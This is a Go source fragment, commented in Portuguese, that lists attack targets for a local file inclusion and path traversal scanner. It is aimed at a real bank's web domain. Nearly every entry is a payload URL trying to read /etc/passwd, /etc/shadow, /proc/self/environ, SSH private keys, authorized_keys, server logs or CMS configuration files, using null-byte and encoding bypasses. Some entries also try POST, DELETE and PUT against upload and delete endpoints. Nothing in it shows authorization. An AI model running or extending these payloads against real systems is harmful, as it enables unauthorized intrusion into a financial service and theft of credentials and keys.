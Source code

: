 var alvosBase = []Alvo{
	// Endpoints gerais com parâmetros comuns de LFI
	{"https://app.nubank.com.br/beta/index.php?page=", "GET"},
	{"https://app.nubank.com.br/beta/index.php?file=", "GET"},
	{"https://app.nubank.com.br/beta/download.php?file=", "GET"},
	{"https://app.nubank.com.br/beta/view.php?doc=", "GET"},
	{"https://app.nubank.com.br/beta/template.php?path=", "GET"},

	// Subdiretórios comuns e uploads
	{"https://app.nubank.com.br/beta/uploads/file=", "GET"},
	{"https://app.nubank.com.br/beta/admin/config.php?file=", "GET"},
	{"https://app.nubank.com.br/beta/assets/data.php?file=", "GET"},
	{"https://app.nubank.com.br/beta/include/template.php?path=", "GET"},

	// Diretórios sensíveis típicos para LFI
	{"https://app.nubank.com.br/beta/var/www/html/index.php?file=", "GET"},
	{"https://app.nubank.com.br/beta/etc/passwd?file=", "GET"},
	{"https://app.nubank.com.br/beta/home/user/config.php?path=", "GET"},
	{"https://app.nubank.com.br/beta/root/.ssh/id_rsa?file=", "GET"},

	// Novos alvos com bypasses (path traversal, null byte, etc.)
	{"https://app.nubank.com.br/beta/painel.php?page=../../../../../etc/passwd", "GET"},
	{"https://app.nubank.com.br/beta/painel.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd", "GET"},
	{"https://app.nubank.com.br/beta/painel.php?page=../../../../../etc/passwd%00", "GET"},
	{"https://app.nubank.com.br/beta/index.php?file=../../../../../etc/shadow%00", "GET"},
	{"https://app.nubank.com.br/beta/viewer.php?file=../../../../../var/log/auth.log", "GET"},
	{"https://app.nubank.com.br/beta/viewer.php?file=../../../../../var/log/auth.log%00", "GET"},
	{"https://app.nubank.com.br/beta/admin.php?include=../../../../../../proc/self/environ", "GET"},
	{"https://app.nubank.com.br/beta/admin.php?include=../../../../../../proc/self/environ%00", "GET"},
	{"https://app.nubank.com.br/beta/dashboard.php?path=....//....//etc/passwd", "GET"},
	{"https://app.nubank.com.br/beta/dashboard.php?path=..%5C..%5Cetc%5Cpasswd", "GET"},
	{"https://app.nubank.com.br/beta/admin/config.php?config=../../../etc/passwd", "GET"},
	{"https://app.nubank.com.br/beta/settings.php?file=../../../../../etc/passwd", "GET"},
	{"https://app.nubank.com.br/beta/settings.php?file=../../../../../etc/passwd%00", "GET"},
	{"https://app.nubank.com.br/beta/download.php?file=../../../../../../var/log/apache2/access.log", "GET"},
	{"https://app.nubank.com.br/beta/download.php?file=../../../../../../var/log/apache2/access.log%00", "GET"},
	{"https://app.nubank.com.br/beta/wp-content/plugins/vulnerable-plugin/include.php?file=../../../../../../wp-config.php", "GET"},
	{"https://app.nubank.com.br/beta/index.php?option=com_webtv&controller=../../../../../../etc/passwd%00", "GET"},
	{"https://app.nubank.com.br/beta/index.php?option=com_config&view=../../../../../../configuration.php", "GET"},
	{"https://app.nubank.com.br/beta/index.php?file=../../../../../home/admin/.ssh/authorized_keys", "GET"},
	{"https://app.nubank.com.br/beta/portal.php?page=../../../../../../etc/issue", "GET"},
	{"https://app.nubank.com.br/beta/portal.php?page=../../../../../../etc/hostname", "GET"},
	{"https://app.nubank.com.br/beta/portal.php?page=../../../../../../var/www/html/index.php", "GET"},

	// Tentativas de outros métodos HTTP
	{"https://app.nubank.com.br/beta/api/upload.php", "POST"},
	{"https://app.nubank.com.br/beta/api/delete.php", "DELETE"},
	{"https://app.nubank.com.br/beta/api/update.php?file=", "PUT"},

	// Outras extensões e arquivos
	{"https://app.nubank.com.br/beta/index.jsp?file=", "GET"},
	{"https://app.nubank.com.br/beta/include/config.pl?path=", "GET"},
	{"https://app.nubank.com.br/beta/admin/config.asp?file=", "GET"},
}
